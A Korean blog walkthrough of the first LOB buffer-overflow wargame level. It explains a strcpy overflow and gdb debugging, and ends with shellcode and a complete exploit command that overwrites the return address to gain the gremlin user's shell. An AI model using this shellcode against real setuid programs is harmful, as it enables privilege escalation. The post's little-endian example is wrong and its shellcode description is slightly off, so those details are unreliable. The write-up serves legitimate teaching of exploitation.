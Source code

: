 ```yaml
---
title: BOF/ LOB-level1(gate)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 1(gate)
**ID : gate**  
**PASSWD : gate**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level1/1.PNG)  
사용자 gremlin의 권한의 gremlin파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 gremlin의 권한으로 파일을 실행할 수 있다.**  
**gremlin파일이 쉘을 실행시키도록 한다면 사용자 gremlin의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

{% endhighlight %}  

**gremlin.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**쉘코드를 인자로 전달하고 쉘코드의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level1에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

**ShellCode를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(256Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### disassemble  

**쉘코드의 주소는 buffer의 시작주소가 될 것이기 때문에 buffer의 시작 주소를 얻기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림2](/assets/LOB/level1/2.PNG)  
disassemble 결과  

![그림3](/assets/LOB/level1/3.PNG)  
**buffer의 시작주소를 확인하기 위해 main함수의 종료 전에 BreakPoint를 걸고 AAAA를 인자로 전달하여 실행시킨 뒤 스택의 값을 출력해본다.**  
esp - 스택의 최상단을 가리키는 포인터  
**b - break명령, r - run명령, x/[범위]wx - 메모리 상태 검사명령(주소 범위 만큼 16진수로 4Byte단위로 출력)**   

**인자로 전달한 AAAA의 Ascii값 41414141을 확인할 수 있다. -> buffer의 시작주소 = 0xbffffa28**  

### Attack  

ShellCode의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [shellcode] + [dummy값] + [buffer시작주소]**의 형태로 공격.  
**이 때 shellcode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 260Byte여야 한다.**
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level1/4.PNG)  
공격이 실패하였다.   

**why?**  
gdb를 이용하여 디버깅을 하게 되면 한번 복사되어 들어가기 때문에 실제 프로세스 주소와 차이가 있다.  

{% highlight C linenos %}  
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    printf("%x\n", buffer);
}

{% endhighlight %} 

![그림5](/assets/LOB/level1/5.PNG)   
**gcc는 컴파일러로 -o옵션은 생성할 바이너리파일의 이름을 지정한다.**  
get_addr.c를 컴파일하여 생성할 파일의 이름은 get_addr로 짓도록 하는 명령  


![그림6](/assets/LOB/level1/6.PNG)   
다시 알아낸 buffer의 주소를 대입하여 공격, 성공적으로 grimlin의 bash를 획득하였다.  


**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

```bash
$ ./gremlin `python -c "print '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A' * 219 + '\x28\xf9\xff\xbf'"`
```